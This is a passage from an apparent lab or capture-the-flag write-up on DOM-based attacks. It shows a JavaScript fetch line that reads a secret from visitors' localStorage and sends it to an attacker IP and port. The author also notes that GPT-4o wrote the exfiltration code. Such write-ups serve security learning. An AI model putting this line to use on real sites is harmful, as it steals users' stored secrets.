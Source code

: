 Assuming other visitors of the web application are in possesion of the secret, all we need to do is read it from their browser and send it to ourselves. In pseudocode:

```JavaScript
sendToOurselves(localStorage.getItem('secret'))
```

For the "send to ourselves" part you either know JavaScript well enough (I don't), Google it, or use OpenAI's brand new [GPT-4o model](https://openai.com/index/hello-gpt-4o/) to write the code for you:

![screenshot8](/DOM-Based_Attacks/assets/screenshot8.png)

We get rid of the error handling part, add the IP address of the attacker machine (`ifconfig`) and the secret retrieval:

```JavaScript
fetch('http://10.10.158.224:4242?secret=' + encodeURIComponent(localStorage.getItem('secret'))).then(response => {});
```
